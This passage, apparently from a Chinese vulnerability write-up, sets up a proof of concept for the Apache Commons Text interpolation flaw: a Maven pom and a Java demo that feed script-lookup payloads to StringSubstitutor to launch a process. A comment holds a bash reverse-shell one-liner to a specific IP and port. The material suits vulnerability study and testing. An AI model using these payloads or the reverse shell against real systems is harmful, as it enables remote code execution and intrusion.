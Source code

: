 ## 4 漏洞分析

### 测试demo

测试环境：jdk1.8，maven
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <groupId>org.example</groupId>
    <artifactId>demo</artifactId>
    <version>1.0-SNAPSHOT</version>
    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-configuration2</artifactId>
            <version>2.7</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-text</artifactId>
            <version>1.9</version>
        </dependency>
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-lang3</artifactId>
            <version>3.12.0</version>
        </dependency>
    </dependencies>
</project>
```



``` java
//demo
package org.example;

import org.apache.commons.text.StringSubstitutor;

public class Main {

    public static void main(String[] args) {

        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
//        String payload = interpolator.replace("${script:js:new java.lang.ProcessBuilder(\"calc\").start()}");
        String payload = "${script:js:new java.lang.ProcessBuilder(\"calc\").start()}";
        //String payload = "${script:javascript:java.lang.Runtime.getRuntime().exec('calc')}\n";
        // ${script:javascript:java.lang.Runtime.getRuntime().exec('bash -i >& /dev/tcp/39.107.113.250/9001 0>&1')}
        interpolator.replace(payload);
        System.out.printf(interpolator.replace("${sys:user.dir}"));
    }
}
```
